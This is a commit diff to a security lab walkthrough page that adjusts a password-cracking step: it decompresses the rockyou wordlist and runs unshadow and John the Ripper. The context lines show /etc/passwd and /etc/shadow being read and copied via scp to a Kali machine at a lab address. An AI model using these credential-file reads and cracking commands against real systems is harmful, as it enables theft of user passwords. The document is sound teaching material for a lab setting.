

Before and after one commit to KOliver94/security-showcase, a Markdown page: docs/walkthrough.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Decompress rockyou before cracking, drop redundant john --show

````diff
--- a/docs/walkthrough.md
+++ b/docs/walkthrough.md
@@ -282,13 +282,15 @@ scp /etc/passwd /etc/shadow vagrant@192.168.56.20:/tmp/
 
 or just `cat /etc/passwd` and `cat /etc/shadow` and paste each into a matching file on Kali.
 
-**On Kali** — merge the two files with `unshadow`, then crack:
+**On Kali** — rockyou ships gzipped, so decompress it once first, then merge the two files with `unshadow` and crack:
 
 ```bash
+gunzip /usr/share/wordlists/rockyou.txt.gz   # first time only
 unshadow /tmp/passwd /tmp/shadow > unshadowed.txt
 john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
-john --show unshadowed.txt
 ```
+
+John prints the cracked password as it falls (re-run with `--show` later if you need to see it again).
 
 frank's password is in `rockyou.txt`:
 
````
